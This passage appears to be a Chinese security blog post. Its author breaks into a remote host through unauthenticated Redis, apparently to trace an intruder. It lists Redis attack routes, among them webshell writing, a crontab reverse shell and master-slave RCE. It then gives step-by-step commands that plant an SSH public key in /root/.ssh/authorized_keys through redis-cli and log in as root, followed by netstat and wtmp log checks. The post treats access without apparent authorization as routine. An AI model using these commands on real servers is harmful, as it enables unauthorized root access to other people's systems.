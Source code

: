 直接尝试远程登录一下，居然能直接可以登录。。。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54Y7ZB74Dtm6tdJwQv9bP7SuArIMolCJoqSEmOA1Kg079UAn4p7Fewl3lS0nY6bB8vDV0R3MGiayNg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54Y7ZB74Dtm6tdJwQv9bP7SicaP2B1BDXObxp1b2uNCZ5uH1PgeC0T8xDdXC80wkwU0MhBzyjXwtog/640?wx_fmt=png)

该你被抓鸡，你不当鸡谁当，在确认有未授权漏洞后，尝试利用，redis 利用方式有  

好几种

1> redis 直接写入 webshell, 但是需要绝对路径，写入权限也要有

2> 写入 ssh 公钥文件使用私钥登录

3> 写入 crontab 计划任务反弹 shell

4> 主从复制 rce

这里使用第二种，因为之前探测发现 ssh 服务也是开启的

1、首先本地生成公私钥文件

ssh-keygen -t rsa

2、将密钥上传到目标主机 redis

cat test.txt | redis-cli -h xx.xx.xx.xx -x set crackit

redis-cli -h xx.xx.xx.xx

config set dir /root/.ssh/

config get dir/

3、保存为 authorized_keys 

config set dbfilename "authorized_keys"

save

4、直接使用 ssh 登录成功

ssh -i id_rsa root@x.x.x.x

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54Y7ZB74Dtm6tdJwQv9bP7SMgVNd0xicyDrQZWgYb0k9DNddRzvWZmWDoPzHtfcQsZIyNlWyClmKHw/640?wx_fmt=png)

上去后先 netstat 看了一下，明晃晃的一个外连 ip

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54Y7ZB74Dtm6tdJwQv9bP7SjsJOP26RdDYsgcYa1fNS11WdUvxia6Z6Kz8ILwRdOUPSgrNmHH78Wrg/640?wx_fmt=png)

定位到相关的 pid 进程，发现了外连地址，纯 ip 的

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54Y7ZB74Dtm6tdJwQv9bP7S1utjHhkDMVJjXnaiclvaKribDjyxh0MrzIY0PbuWicV1hzJmG2XqI6YRQ/640?wx_fmt=png)

继续查看了有谁登录过这台主机, 通过查看 / var/log/wtmp 日志

last  /var/log/wtmp

根据 windows 被入侵日志时间段筛选了一遍，还真的在这个时间段找到了这个 ip 地址，用户是 root，很大概率这个外连地址就是攻击者的真实服务器了

wangjy ? pts/9 ? ? ? xx.xx.xx.xx ?Thu Dec 17 10:15 ? still logged in ?? 
